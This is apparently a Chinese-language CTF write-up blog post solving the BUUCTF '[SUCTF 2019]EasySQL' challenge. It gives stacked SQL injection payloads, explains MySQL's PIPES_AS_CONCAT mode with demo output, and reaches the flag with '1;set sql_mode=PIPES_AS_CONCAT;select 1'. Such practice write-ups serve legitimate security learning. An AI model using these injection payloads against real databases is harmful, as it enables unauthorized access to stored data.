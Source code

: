 ```yaml
---
layout:     post               # 使用的布局（不需要改）
title:      [SUCTF 2019]EasySQL1   # 标题 
subtitle:    buuctf  #副标题
date:       2020-07-30        # 时间
author:     yanmie             # 作者
header-img: img/.jpg    ##标签这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               
    - CTF
  
--- 
```


攻防世界登录密码错误次数太多了，封禁帐号了。。。暂且刷几道buuctf的题。

打开环境，

![auB3sH.png](https://s1.ax1x.com/2020/07/30/auB3sH.png)

输入0以外的数字查询，回显

	Array ( [0] => 1 ) 

输入0和其他字符页面无回显。

输入`from`、`update`、`where`、`union`、`and`、`or`等字符串，页面回显

	Nonono.

很明显被过滤了。

联合注入，盲注显然不能了。

尝试堆叠注入。

输入`1;show databases; #`，页面回显

	Array ( [0] => 1 ) Array ( [0] => ctf ) Array ( [0] => ctftraining ) Array ( [0] => information_schema ) Array ( [0] => mysql ) Array ( [0] => performance_schema ) Array ( [0] => test ) 

可以进行堆叠注入。

输入`1;show tables; #`页面回显：

	Array ( [0] => 1 ) Array ( [0] => Flag ) 

flag应该就在flag表里。

输入`1;show columns from flag; #`查字段，但页面回显Nonono.

。。。。。因为flag和from被过滤了。

尝试一下预处理，发现不可行，超过一定长度页面会显示

	Too long.

网上查了查wp.

这里要猜测后端查询表语句。

我们需要根据输入数据返回的特征，猜出SQL语句大概是这样：

	select $_POST['query'] || flag from flag

这里`||`后的flag字段必须是表里有的字段。

**知识点**：

oracle 支持 通过 ‘ || ’ 来实现字符串拼接，但在mysql 不支持。

在mysql里，不设置相关参数的话它只是个 `或运算` 的符号。

或运算符有真则为真，字符视为假.

```
mysql> select 1 || user from users;
+-----------+
| 1 || user |
+-----------+
|         1 |
|         1 |
|         1 |
|         1 |
|         1 |
+-----------+
5 rows in set (0.00 sec)

mysql> select 0 || user from users;
+-----------+
| 0 || user |
+-----------+
|         0 |
|         0 |
|         1 |
|         0 |
|         0 |
+-----------+
5 rows in set, 4 warnings (0.00 sec)
```

但是我们可以通过设置 sql_mode=pipes_as_concat; 来使  ||  用作拼接的作用。sql_mode是一组mysql支持的基本语法及校验规则，查询当前系统sql_mode的设置:select @@sql_mode;设置用set @@sql_mode=" "；

sql_mode参数看[这里](https://blog.csdn.net/weixin_42373127/article/details/88866710)

```
mysql> set sql_mode=PIPES_AS_CONCAT;select 1 || user from users;
Query OK, 0 rows affected, 1 warning (0.00 sec)

+-----------+
| 1 || user |
+-----------+
| 1admin    |
| 1gordonb  |
| 11337     |
| 1pablo    |
| 1smithy   |
+-----------+
5 rows in set (0.00 sec)

mysql> set sql_mode=PIPES_AS_CONCAT;select 0 || user from users;
Query OK, 0 rows affected (0.00 sec)

+-----------+
| 0 || user |
+-----------+
| 0admin    |
| 0gordonb  |
| 01337     |
| 0pablo    |
| 0smithy   |
+-----------+
5 rows in set (0.00 sec)

mysql>
```

继续解题：

`1;set sql_mode=PIPES_AS_CONCAT;select 1` ,这里后边的`select 1`又拼接了原本的sql语句，页面回显：

	Array ( [0] => 1 ) Array ( [0] => 1flag{e74e5597-a34d-4e63-8a7c-b84fdbf9eb2e} ) 

另一种解法们这里没过滤`*`,输入`*,1`,回显：

	Array ( [0] => flag{e74e5597-a34d-4e63-8a7c-b84fdbf9eb2e} [1] => 1 ) 

